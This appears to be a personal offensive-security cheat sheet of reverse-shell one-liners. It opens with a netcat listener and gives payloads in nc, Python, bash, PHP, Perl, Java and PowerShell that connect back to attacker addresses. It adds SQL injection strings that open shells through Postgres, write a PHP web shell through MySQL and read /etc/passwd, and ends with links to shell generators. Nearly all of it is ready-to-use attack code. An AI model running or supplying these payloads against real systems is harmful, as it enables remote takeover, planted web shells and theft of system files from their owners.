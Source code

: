 # nc

Author: Julien Bongars
Date: 2025-09-20 16:34:33

---

# source

```bash
nc -lvp 4444
<wait for connection>
```

# target

```bash
# nc
nc -e /bin/bash YOUR_IP 4444

# python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# bash (linux)
bash -i >& /dev/tcp/YOUR_IP/4444 0>&1

# php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

# perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Postgres

```sql
'; COPY (SELECT '') TO PROGRAM 'bash -c "bash -i >& /dev/tcp/YOUR_IP/4444 0>&1"'; --
```

### Alternatives

```sql
'; CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT; --

'; SELECT system('bash -c "bash -i >& /dev/tcp/YOUR_IP/4444 0>&1"'); --

```

## MySQl

```sql
'; SELECT "<?php system($_GET['c']); ?>" INTO OUTFILE '/var/www/html/shell.php'; --

'; SELECT load_file('/etc/passwd'); --
```

## Java

```java
# java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Powershell

```ps1
$LHOST = "10.10.10.10"; $LPORT = 9001; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

# resource

## Generator\*\*\*

https://www.revshells.com/

### Github

https://github.com/0dayCTF/reverse-shell-generator

## Internet all the things

https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#summary
